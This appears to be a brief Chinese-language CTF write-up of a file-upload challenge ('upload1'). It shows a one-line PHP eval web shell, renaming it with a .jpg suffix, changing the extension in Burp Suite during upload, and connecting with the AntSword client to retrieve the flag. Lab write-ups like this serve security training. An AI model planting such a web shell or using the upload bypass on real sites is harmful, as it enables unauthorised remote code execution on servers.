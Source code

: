 ```yaml
---
title: upload1
date: 2020-09-25 22:50:49
tags: [Writeups, 文件执行漏洞, WEB]
categories: CTF
---
```


Burp抓包，修改后缀，文件自动执行，连接后台，找到文件，获得flag

<!-- more -->

<img src="upload1/upload_photo.png" width=50%/>

所以先构造php文件

```php
// virus.php
<?php eval("$_POST[a]");
```

改名为virus.php.jpg

上传

<img src="upload1/upload_makeup.png" width=50%/>

重新上传并使用burp抓包

<img src="upload1/burp_intercept.png" width=50%/>

修改一波后缀

<img src="upload1/edited.png" width=50%/>

蚁剑连接即可